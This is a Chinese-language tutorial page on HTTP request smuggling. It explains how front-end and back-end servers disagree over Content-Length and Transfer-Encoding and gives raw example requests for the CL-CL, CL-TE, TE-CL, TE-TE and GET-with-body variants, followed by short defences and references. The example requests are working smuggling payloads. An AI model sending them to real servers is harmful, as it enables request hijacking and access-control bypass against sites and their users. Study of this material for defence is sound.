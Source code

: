 HTTP 请求走私
========================================

简介
----------------------------------------
HTTP请求走私是一种干扰网站处理HTTP请求序列方式的技术，最早在 2005 年的一篇 `文章 <https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf>`_ 中被提出。

成因
----------------------------------------
请求走私大多发生于前端服务器和后端服务器对客户端传入的数据理解不一致的情况。这是因为HTTP规范提供了两种不同的方法来指定请求的结束位置，即 ``Content-Length`` 和 ``Transfer-Encoding`` 标头。

分类
----------------------------------------
- CLTE：前端服务器使用 ``Content-Length`` 头，后端服务器使用 ``Transfer-Encoding`` 头
- TECL：前端服务器使用 ``Transfer-Encoding`` 标头，后端服务器使用 ``Content-Length`` 标头。
- TETE：前端和后端服务器都支持 ``Transfer-Encoding`` 标头，但是可以通过以某种方式来诱导其中一个服务器不处理它。

攻击
----------------------------------------

CL不为0的GET请求
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
当前端服务器允许GET请求携带请求体，而后端服务器不允许GET请求携带请求体，它会直接忽略掉GET请求中的 ``Content-Length`` 头，不进行处理。例如下面这个例子：

::

    GET / HTTP/1.1\r\n
    Host: example.com\r\n
    Content-Length: 44\r\n

    GET /secret HTTP/1.1\r\n
    Host: example.com\r\n
    \r\n

前端服务器处理了 ``Content-Length`` ，而后端服务器没有处理 ``Content-Length`` ，基于pipeline机制认为这是两个独立的请求，就造成了漏洞的发生。

CL-CL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
根据RFC 7230，当服务器收到的请求中包含两个 ``Content-Length`` ，而且两者的值不同时，需要返回400错误，但是有的服务器并没有严格实现这个规范。这种情况下，当前后端各取不同的 ``Content-Length`` 值时，就会出现漏洞。例如：

::

    POST / HTTP/1.1\r\n
    Host: example.com\r\n
    Content-Length: 8\r\n
    Content-Length: 7\r\n

    12345\r\n
    a

这个例子中a就会被带入下一个请求，变为 ``aGET / HTTP/1.1\r\n`` 。

CL-TE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
CL-TE指前端服务器处理 ``Content-Length`` 这一请求头，而后端服务器遵守RFC2616的规定，忽略掉 ``Content-Length`` ，处理 ``Transfer-Encoding`` 。例如：

::

    POST / HTTP/1.1\r\n
    Host: example.com\r\n
    ...
    Connection: keep-alive\r\n
    Content-Length: 6\r\n
    Transfer-Encoding: chunked\r\n
    \r\n
    0\r\n
    \r\n
    a

这个例子中a同样会被带入下一个请求，变为 ``aGET / HTTP/1.1\r\n`` 。

TE-CL
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
TE-CL指前端服务器处理 ``Transfer-Encoding`` 请求头，而后端服务器处理 ``Content-Length`` 请求头。例如：

::

    POST / HTTP/1.1\r\n
    Host: example.com\r\n
    ...
    Content-Length: 4\r\n
    Transfer-Encoding: chunked\r\n
    \r\n
    12\r\n
    aPOST / HTTP/1.1\r\n
    \r\n
    0\r\n
    \r\n

TE-TE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
TE-TE指前后端服务器都处理 ``Transfer-Encoding`` 请求头，但是在容错性上表现不同，例如有的服务器可能会处理 ``Transfer-encoding`` ，测试例如：

::

    POST / HTTP/1.1\r\n
    Host: example.com\r\n
    ...
    Content-length: 4\r\n
    Transfer-Encoding: chunked\r\n
    Transfer-encoding: cow\r\n
    \r\n
    5c\r\n
    aPOST / HTTP/1.1\r\n
    Content-Type: application/x-www-form-urlencoded\r\n
    Content-Length: 15\r\n
    \r\n
    x=1\r\n
    0\r\n
    \r\n

防御
----------------------------------------
- 禁用后端连接重用
- 确保连接中的所有服务器具有相同的配置
- 拒绝有二义性的请求

参考链接
----------------------------------------

RFC
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `RFC 2616 Hypertext Transfer Protocol -- HTTP/1.1 <https://tools.ietf.org/html/rfc2616>`_
- `RFC 7230 Hypertext Transfer Protocol (HTTP/1.1): Message Syntax and Routing -- HTTP/1.1 <https://tools.ietf.org/html/rfc7230>`_

Blog / Whitepaper
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `HTTP Request Smuggling by chaiml <https://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf>`_
- `HTTP request smuggling by portswigger <https://portswigger.net/web-security/request-smuggling>`_
- `从一道题到协议层攻击之HTTP请求走私  <https://xz.aliyun.com/t/6654>`_
- `HTTP Request Smuggling in 2020 <http://i.blackhat.com/USA-20/Wednesday/us-20-Klein-HTTP-Request-Smuggling-In-2020-New-Variants-New-Defenses-And-New-Challenges.pdf>`_
- `h2c Smuggling: Request Smuggling Via HTTP/2 Cleartext (h2c) <https://labs.bishopfox.com/tech-blog/h2c-smuggling-request-smuggling-via-http/2-cleartext-h2c>`_

